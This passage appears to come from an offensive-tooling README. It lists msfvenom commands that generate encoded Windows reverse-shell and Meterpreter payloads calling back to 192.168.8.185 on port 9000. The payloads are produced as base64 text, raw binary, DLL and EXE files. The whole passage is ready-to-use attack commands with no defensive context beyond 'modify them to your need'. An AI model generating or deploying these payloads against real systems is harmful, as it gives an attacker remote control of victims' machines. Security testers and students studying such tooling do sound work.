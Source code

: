 ```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt
```

To generate a `binary file` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin
```

To generate a `DLL file` use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll
```

To generate a `standalone executable` file use one of the following MSFvenom commands (modify them to your need):

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.185 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe
```

